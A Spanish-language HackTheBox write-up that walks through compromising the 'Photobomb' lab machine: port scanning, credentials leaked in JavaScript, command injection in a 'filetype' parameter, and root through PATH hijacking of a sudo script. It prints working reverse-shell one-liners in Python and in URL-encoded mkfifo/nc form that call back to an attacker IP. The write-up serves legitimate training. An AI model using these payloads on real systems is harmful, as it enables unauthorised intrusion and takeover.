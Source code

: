 ```yaml
---
title: Photobomb WriteUp
author: H4ckerLite 
date: 2023-02-04 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [hackthebox, writeup, easy, command injection, path hijacking]
pin: true
image:
  path: ../../assets/img/commons/photoBomb-writeup/Photobomb.png 
  alt: Photobomb WriteUp
---
```


Hoy tocará explotar la máquina **Photobomb** de [HackTheBox](https://app.hackthebox.com/machines/photobomb), es de dificultad fácil. Haremos un `command injection` y para la escalada haremos un `Path Hijacking`


## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.





```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 13:24 -04
Initiating SYN Stealth Scan at 13:24
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed SYN Stealth Scan at 13:24, 17.92s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.16s latency).
Scanned at 2023-02-04 13:24:12 -04 for 18s
Not shown: 61907 closed tcp ports (reset), 3626 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
           Raw packets sent: 87248 (3.839MB) | Rcvd: 67894 (2.716MB)
```



Nos percatamos que tiene el SSH abierto y el puerto 80 que corresponde al HTTP, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:



```bash
echo "10.10.11.182       photobomb.htb" | tee -a /etc/hosts
```

## Enumeración

Vemos una pagina de inicio con un redirect a `/printer`


 ![WebSite]({{ 'assets/img/commons/photoBomb-writeup/main.png' | relative_url }}){: .center-image }
 _Web Site_


Si intentamos acceder nos pedirá credenciales

 ![login]({{ 'assets/img/commons/photoBomb-writeup/login.png' | relative_url }}){: .center-image }
 _Log in_

Podemos probar credenciales típicas por defecto, pero no resultará útil.

```
admin:admin
admin:password
admin:pass
guest:guest

```
Si revisamos el código fuente nos encontramos con cosaas interesantes.

Le aplicamos un **curl**.
```bash
❯ curl -s -X GET http://photobomb.htb
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```
Podemos ver un script de JavaScript, si vemos su contenido se nos filtra una cookie

```bash
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
Al copiar dicha cookie, podemos ver el panel `/printer`.

![login]({{ 'assets/img/commons/photoBomb-writeup/confirm.png' | relative_url }}){: .center-image }
_Log in_

## Explotación

En este apartado vemos unas imagenes las cuales podemos descargar y hacer pequeñas modificaciones como ser:
>Cambiarle la extensión y modicar el tamaño.


![printer]({{ 'assets/img/commons/photoBomb-writeup/printer.png' | relative_url }}){: .center-image }
_Printer_

Podemos interceptar la petición con BurpSuite y ver mas a detalles como se estructura todo

![Burp]({{ 'assets/img/commons/photoBomb-writeup/burp.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver si es vulnerable a un **Command injection**, pero antes que nada inicia un servidor con `python`

```bash
python -m http.server 80
```
Mandamos la petición al `Repeater`, para ello presionamos `Ctrl + R`
Si nos fijamos en los parametros podemos agregar `;` y añadir nuestro comando, se vería así

![BurpSuite]({{ 'assets/img/commons/photoBomb-writeup/burp1.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver que no le gusta en algunos parametros, pero con haciendo prueba y error encontramos que el parametro `filetype` es vulnerable, lo podemos comprobar en la petición

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [04/Feb/2023 14:45:12] "GET / HTTP/1.1" 200 -
```
Podemos intentar enviarnos una reverse shell, usano esta [página](https://www.revshells.com/) podemos hacer la reverse shell con varias opciones.
Probaremos con bash pero no funciona, así que podemos probar con python3 y esta nos lanzará la shell

```python
export RHOST="10.10.14.25";export RPORT=444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
![RCE]({{ 'assets/img/commons/photoBomb-writeup/burp2.png' | relative_url }}){: .center-image }
_RCE_


>Nota: Si usas nc mkfifo y url encode te lanzará la shell igual

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.25%20444%20%3E%2Ftmp%2Ff
```

Ganamos acceso a la máquina, estamos listos para rootearla
```bash
❯ nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.182] 49946
wizard@photobomb:~/photobomb$ 
```
Toca realizar un tratamiento a la tty, te puedes guiar de mi [blog](https://h4ckerlite.github.io/posts/tty).


Una vez adentro podemos leer la primera flag

```bash
wizard@photobomb:~/photobomb$ cat ../user.txt 
06****************************78
wizard@photobomb:~/photobomb$ 
```



## Escalada de privilegios

Si vemos los privilegios **SUDOERS** vemos que podemos ejecutar un programa hecho en **bash**

```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
Vemos que lo podemos ejecutar sin proporcionar ninguna contraseña, es decir que al ejecuralo como **sudo** sera ejecutado de forma temporal como root sin proporcionar contraseña

```bash
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ 
```

Si vemos el contenido de dicho archivo nos encontramos con binarios que podemos usar para elevar nuestros privilegios.

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~/photobomb$ 

```
Vemos que el binario `find` esta con ruta relativa no absoluta y esto puede derivar a un **Path Hijacking**, 

Podemos aprovechar que podemos cambiar variables de entorno como el Path para que nos ejecute el comando find personalizado, y bajo el contexto de sudo nuestro binario find lo ejecutará root.

```bash
wizard@photobomb:/tmp$ echo bash > find
wizard@photobomb:/tmp$ chmod 777 find 
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -l /bin/bash
root@photobomb:/home/wizard/photobomb# 

```
Ya rooteamos la máquina, lo que hicimos fue hacer un binario perzonalizado find que nos lanze una bash como root, en este caso, ya que el esta ejecutando el `/opt/cleanup.sh` con el binario find de forma relativa.
Procedemos a leer la flag

```bash
root@photobomb:/home/wizard/photobomb# cat /root/root.txt 
74****************************35
root@photobomb:/home/wizard/photobomb# 
```
¡¡¡Máquina Pwneada!!! Te deseo un Feliz Hackeo.


